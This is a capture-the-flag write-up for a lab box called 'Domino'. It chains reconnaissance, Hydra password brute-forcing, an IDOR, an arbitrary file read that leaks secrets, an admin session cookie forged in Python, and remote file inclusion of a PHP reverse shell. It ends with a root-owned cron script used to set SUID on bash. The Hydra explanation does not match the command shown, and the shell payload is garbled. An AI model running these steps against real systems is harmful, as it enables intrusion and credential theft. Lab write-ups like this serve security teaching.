









# Domino

**Difficulty:** Medium **Category:** Web Exploitation, IDOR, Session Forgery, RFI, Privilege Escalation **Author:** Sabin (ninjax\_11) **Date:** July 2026

***

## Overview

Domino is a web-focused CTF box built around a fictional company portal, "NexusCorp." What makes it a good learning box is that no single vulnerability is fatal on its own — each small weakness hands you exactly the piece of information you need to attack the next layer. This writeup walks through the full chain step by step: **what I ran, why I ran it, how the command actually works, what it gave me back, and what that result told me to try next.**

Four flags are captured along the way. Their real values aren't shown — they're written as `THM{flag1}`, `THM{flag2}`, `THM{flag3}`, `THM{flag4}` as placeholders for wherever your own captured string goes.

***

## Table of Contents

1. [Reconnaissance — Finding What's Open](./#1-reconnaissance--finding-whats-open)
2. [Enumeration — Mapping the Web App](./#2-enumeration--mapping-the-web-app)
3. [Reading the Leaked JavaScript](./#3-reading-the-leaked-javascript)
4. [Decrypting the Backup Config](./#4-decrypting-the-backup-config)
5. [Cracking Login Credentials with Hydra](./#5-cracking-login-credentials-with-hydra)
6. [Flag 1 — Breaking Access Control (IDOR)](./#6-flag-1--breaking-access-control-idor)
7. [Turning a File-Read Bug into a Secrets Leak](./#7-turning-a-file-read-bug-into-a-secrets-leak)
8. [Flag 2 — Forging an Admin Session](./#8-flag-2--forging-an-admin-session)
9. [Flag 3 — Turning File-Read into Code Execution](./#9-flag-3--turning-file-read-into-code-execution)
10. [Moving Sideways — www-data to devops](./#10-moving-sideways--www-data-to-devops)
11. [Flag 4 — Becoming Root via Cron](./#11-flag-4--becoming-root-via-cron)
12. [Flags Summary](./#12-flags-summary)
13. [Lessons Learned](./#13-lessons-learned)

***

## 1. Reconnaissance — Finding What's Open

**Why I started here:** before touching anything, I need to know what's actually reachable on the box. There's no point guessing at web paths if, say, only SSH is open.

**Command:**

```bash
nmap -sC -sV <target_ip>
```

**How it works:**

* `-sC` runs Nmap's default set of safe enumeration scripts (banner grabs, common service checks).
* `-sV` probes each open port to identify the exact service and version running on it.
* Together, this single command tells me _what_ is listening and _what software version_ it's running, which sometimes reveals known CVEs by itself.

**Result:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.58 (Ubuntu)
|_http-title: NexusCorp Portal
```

**What this tells me / what's next:** Only two ports are open. SSH (22) is almost never the _entry point_ on a box like this — it's usually where you land _after_ getting credentials some other way. So the entire initial attack surface is the web app on port 80. That's where I go next.



***

## 2. Enumeration — Mapping the Web App

**Why I did this:** the homepage only shows what the developers _want_ me to see. Real content — admin panels, backups, employee lists — usually lives at paths that aren't linked anywhere obvious. The only way to find them is to guess systematically using a wordlist, and to actually read every page that _is_ linked.

**Command:**

```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt
```

**How it works:**

* `dir` tells Gobuster to brute-force directory/file names.
* `-u` is the target URL.
* `-w` points at a wordlist of common directory/file names; Gobuster requests each one and reports back anything that isn't a 404.

**Result:**

```
admin        (Status: 301)
api          (Status: 301)
backup       (Status: 301)
static       (Status: 301)
support      (Status: 301)
```


**What this tells me / what's next:** `/admin/` and `/api/` are expected on a portal like this, but `/backup/` immediately stands out. That's the first place I dig into.

Visiting `/backup/` shows a `README`:

```
NexusCorp Backup Configuration
================================
config.enc  - Encrypted application configuration (AES-128-ECB)
Decryption key reference: see static/app.js (deployment notes)
```

Separately, the login page itself linked to two pages worth reading before touching anything else: `team.php` and `forgot.php`. The **team page listed staff members and their email addresses**, which directly reveals the app's username format (`firstname.lastname`, matching the pattern the login form's placeholder text hinted at). I noted down the derived usernames — including `sarah.johnson`, `laura.hayes`, and others — since a login page is useless to attack without a list of valid accounts to try.

**Why this matters:** an encrypted backup and a valid username list are two very different but equally useful things. One tells me there's a secret to find; the other tells me _who_ to try to become. Both come from pages nobody explicitly hid — the app leaked its own attack surface just by existing.

`![Screenshot: /backup/README.txt contents]`
`![Screenshot: team.php page showing employee emails/usernames]`

***

## 3. Reading the Leaked JavaScript

**Why I did this:** the README explicitly said the decryption key lives in `static/app.js`. Frontend JavaScript is sent in full to every visitor's browser, so anything in there — including any comments left by a developer — is effectively public.

**Command:**

```bash
curl http://<target_ip>/static/app.js
```

**Result:** a developer comment sitting directly in the file:

```js
// Encryption key for backup config decryption - AES-ECB-128
// Key: N3xusK3y2024!!  (pad to 16 bytes)
_backupKey: 'N3xusK3y2024!!'
```

**What this tells me / what's next:** I now have the AES key needed to decrypt `config.enc`. Next step: decrypt the backup.

`![Screenshot: app.js source showing the leaked key]`



***

## 4. Decrypting the Backup Config

**Why I did this:** I now have both pieces needed — the encrypted file from `/backup/config.enc`, and the key from `app.js`.

**Command:**

```bash
python3 -c "print('N3xusK3y2024!!'.encode().ljust(16, b'\x00').hex())"
openssl enc -aes-128-ecb -d -in config.enc -out config_decrypted -K <hex_key> -nopad
cat config_decrypted
```

**How it works:**

* AES-128-ECB needs a key exactly 16 bytes long. The key found in `app.js` is 14 characters, so it's padded to 16 bytes and converted to hex, which is the format `openssl` expects.
* `openssl enc -aes-128-ecb -d` decrypts using that key. `-nopad` handles the raw output manually rather than assuming standard PKCS7 padding.

**Result:**

```json
{"app_name":"NexusCorp Portal","version":"2.3.1","deploy_env":"production","system_user":"devops"}
```

**What this tells me / what's next:** this names a real system account — `devops` — that exists on the server. Worth noting for later; it becomes important during privilege escalation. For now, the web app's login is still the main target.

`![Screenshot: decrypted config.enc contents]`


***

## 5. Cracking Login Credentials with Hydra

**Why I did this:** I now had a list of valid usernames from `team.php`, and the login form itself was a plain POST request with a distinguishable failure message ("Invalid credentials"). That combination — real usernames plus a login form that responds differently to right vs. wrong passwords — is exactly what a password-spraying/brute-force tool needs. Rather than guessing manually, I let Hydra try a large common-password list against every known username at once.

**Command:**

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-1000.txt \
  10.48.139.200 http-post-form \
  "/index.php:username=^USER^&password=^PASS^:Invalid credentials" \
                                                                                       
```

**How it works:**

* `-L users.txt` gives Hydra the list of usernames harvested from `team.php` (one per line).
* `-P <wordlist>` gives Hydra a password list to try against every username — here, a common-passwords list from SecLists.
* `http-post-form` tells Hydra the target is a web login form submitted via POST, not a network service like SSH or FTP.
* The form string `"/index.php:username=^USER^&password=^PASS^:F=incorrect"` tells Hydra three things: which page to POST to, how to build the POST body (substituting `^USER^`/`^PASS^` with each attempt), and how to recognize a **failed** login — the string `incorrect`, matching this app's `"Invalid credentials"` error message. Anything that _doesn't_ contain that string is treated as a successful login.
* `-o hydra_results.txt` saves every attempt/result to a file instead of only printing to screen.
* `-f` tells Hydra to stop as soon as it finds one valid pair, instead of continuing to burn through the rest of the list.
* `-t 32` runs 32 parallel login attempts at once, to speed things up.

**Result:** Hydra returned a valid username/password pair for `sarah.johnson`. Logging in with those credentials at `/index.php` returned a valid `nexus_session` cookie — my first authenticated foothold on the app, as a normal (non-admin) user.

**What this tells me / what's next:** I now had a real, logged-in session as a low-privileged employee account, which is exactly what's needed to legitimately request a JWT from the API (rather than trying to bypass authentication entirely). From here, the API itself becomes the next target.

`![Screenshot: hydra output showing the cracked sarah.johnson credentials]` 
`![Screenshot: successful login as sarah.johnson, session cookie set]`


***

## 6. Flag 1 — Breaking Access Control (IDOR)

**Why I did this:** now logged in as `sarah.johnson`, the dashboard exposed a way to obtain a JWT for the `/api/` routes via `/api/auth/token.php`. Once I had _any_ valid token — even scoped to a low-privileged account — the natural next question for any API is: **does the server check that I actually own the resource I'm asking for, or does it just check that my token is valid at all?** That distinction is the whole basis of an IDOR (Insecure Direct Object Reference) vulnerability, so it's always worth testing.

**Command:**

```bash
curl 'http://<target_ip>/api/users/profile.php?id=1' \
  -H 'Authorization: Bearer <sarah_johnson_jwt>'
```

**How it works:** using the JWT tied to my own low-privilege session, but changing the `id` parameter in the URL to `1` — a guess that user ID 1 is likely the first account created (often an admin, in seeded demo data like this).

**Result:**

```json
{
  "id": 1,
  "username": "laura.hayes",
  "email": "laura.hayes@nexus.corp",
  "role": "admin",
  "notes": "THM{flag1}"
}
```

**What this tells me / what's next:** the server never checked whether the `id` I asked for matched _my own_ account — only that my token was valid at all. This confirms an IDOR: any authenticated user can pull any other user's profile by changing one number. It also reveals the admin account's username (`laura.hayes`), useful for impersonating that account later.

**Flag 1:** `THM{flag1}`

`![Screenshot: profile.php?id=1 response containing flag 1]`

***

## 7. Turning a File-Read Bug into a Secrets Leak

**Why I did this:** the same `/api/` area exposes `files.php`, which reads a file from disk and returns its contents, given a `name` parameter and a valid JWT. Whenever an app hands you _any_ kind of arbitrary file-read primitive, the highest-value targets are always the application's own source code and config files.

**Command:**

```bash
curl 'http://<target_ip>/api/files.php?name=/var/www/html/config.php' \
  -H 'Authorization: Bearer <jwt>'
```

**Result:**

```json
{
  "file": "/var/www/html/config.php",
  "content": "<?php\ndefine('DB_PASS', 'D3v0ps!2024');\ndefine('JWT_SECRET', 'nexus_jwt_s3cr3t_2024');\ndefine('APP_SECRET', 'nexus_app_k3y_2024');\n..."
}
```

**What this tells me / what's next:** this one request leaked a database password, the JWT signing secret, and the `APP_SECRET` used to sign session cookies. Pulling `index.php` the same way clarified exactly how sessions worked:

```php
$cookie_data = base64_encode(json_encode([
    'user_id' => $row['id'], 'username' => $row['username'], 'role' => $row['role']
]));
$sig = hash_hmac('sha256', $cookie_data, APP_SECRET);
setcookie('nexus_session', $cookie_data . '.' . $sig, ...);
```

The cookie is just `base64(json) + "." + HMAC-SHA256(json, APP_SECRET)` — no server-side session table backing it. With the signing secret in hand, I can build a valid cookie for _any_ user entirely on my own machine.

`![Screenshot: files.php leaking config.php]`



***

## 8. Flag 2 — Forging an Admin Session

**Why I did this:** I now have the exact ingredients the server uses to trust a session — the admin's user ID (from the IDOR in step 6) and the signing secret (from step 7). Rather than looking for a password, I can construct a valid admin session myself.

**Command (Python):**

```python
import base64, hmac, hashlib, json

SECRET_KEY = b"nexus_app_k3y_2024"
user_payload = {"user_id": 1, "username": "laura.hayes", "role": "admin"}

json_str = json.dumps(user_payload, separators=(',', ':'))
base64_payload = base64.b64encode(json_str.encode()).decode()
signature = hmac.new(SECRET_KEY, base64_payload.encode(), hashlib.sha256).hexdigest()

forged_cookie = f"{base64_payload}.{signature}"
print(forged_cookie)
```

**Result:** setting this value as the `nexus_session` cookie and visiting `/admin/index.php` loads the admin panel with full access.

**Flag 2:** `THM{flag2}`

`![Screenshot: forged cookie set in browser dev tools]` `![Screenshot: admin panel access showing flag 2]`




***

## 9. Flag 3 — Turning File-Read into Code Execution

**Why I did this:** With admin access confirmed, I wanted to test one more thing on `files.php` — what happens if `name` is a full URL instead of a local path. A file-read endpoint that also fetches remote URLs is a Remote File Inclusion (RFI) risk if the fetched PHP content gets executed rather than just displayed.

**Setup:**

Generated a PHP reverse shell using [revshells.com](https://revshells.com), selecting **PHP → Plain Text (Pentest Monkey)** as the payload type, and filled in my attacker IP and listener port.

Saved the payload as `reverse.php`:

```php
<?php
$sock = fsockopen("", 9001);
exec("sh &3 2>&3");
```


Hosted the payload with a quick Python web server:

```bash
python3 -m http.server 8000
```

Started a listener to catch the callback:

```bash
nc -lvnp 9001
```

**Trigger the RFI:**

```bash
curl 'http://<ip>/api/files.php?name=http://:8000/reverse.php' \
  -H 'Authorization: Bearer '
```

**Result:** uid=33(www-data) gid=33(www-data) groups=33(www-data)

**Flag 3:** `THM{flag3}` _(found on disk after gaining a shell as www-data)_

## `![Screenshot: reverse shell landing as www-data]` `![Screenshot: locating and reading flag 3 on disk]`


## 10. Moving Sideways — www-data to devops

**Why I did this:** `www-data` is a restricted service account. Checking `/etc/passwd` confirmed a real account, `devops` (the same name flagged back in step 4). The database password leaked in step 7 (`D3v0ps!2024`) is worth trying here — password reuse between an app's service credentials and a real system account is extremely common.

**Command:**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
su devops
```

**Result:**

```
Password: D3v0ps!2024
whoami
devops
```

`![Screenshot: su to devops succeeding]`


***

## 11. Flag 4 — Becoming Root via Cron

**Why I did this:** as a normal user, cron jobs running periodically as root are one of the highest-value, lowest-cost privilege escalation checks available. `pspy` observes process activity system-wide without needing any special privileges.
Transfer the pspy from your device to the target ip using python server.

**Command:**

```bash
wget http://<attacker_ip>:8002/pspy64
chmod +x pspy64
./pspy64
```

**Result:**

```
CMD: UID=0  PID=3133  | /bin/bash /opt/monitoring/health_report.sh
```

Confirmed the script was writable by `devops`:



```bash
ls -la /opt/monitoring/health_report.sh
```

**Exploiting it:**

```bash
echo 'chmod +s /bin/bash' >> /opt/monitoring/health_report.sh
```

**Result (after the cron interval passes):**

```bash
ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.4M Mar 31 2024 /bin/bash

bash -p
id
uid=1001(devops) gid=1001(devops) euid=0(root)

cat /root/root.txt
```

**Flag 4 (root):** `THM{flag4}`

`![Screenshot: pspy64 catching the root cron job]` `![Screenshot: SUID bash confirmed, root shell, and flag 4]`



***

## 12. Flags Summary

| # | Where it was found              | How it was obtained                                 |
| - | ------------------------------- | --------------------------------------------------- |
| 1 | `profile.php?id=1` response     | IDOR — no ownership check on the `id` parameter     |
| 2 | Admin panel, `/admin/index.php` | Session cookie forged using the leaked `APP_SECRET` |
| 3 | Filesystem, as `www-data`       | RFI via `files.php` fetching a remote PHP payload   |
| 4 | `/root/root.txt`                | Cron script writable by `devops`, executed as root  |

`THM{flag1}` · `THM{flag2}` · `THM{flag3}` · `THM{flag4}`

***

## 13. Lessons Learned

* **Never expose employee names/emails on a public "team" page** without considering that it doubles as a username list for an attacker.
* **Rate-limit or lock out login attempts.** Nothing here stopped a 7,000-attempt Hydra run from completing.
* **Never hardcode secrets in client-side JavaScript.**
* **Always check ownership, not just authentication**, on any endpoint that takes an object ID.
* **Never let a "read a file" endpoint accept remote URLs** without an explicit allow-list of safe local paths.
* **Session/JWT signing secrets must never appear in application source that could ever leak.**
* **Don't reuse the same password across a database account and a real system account.**
* **Any file executed by root via cron must not be writable by a lower-privileged user.**

***

_Writeup for the TryHackMe "Domino" lab. Screenshots referenced throughout are stored in `./screenshots/` in this repo._
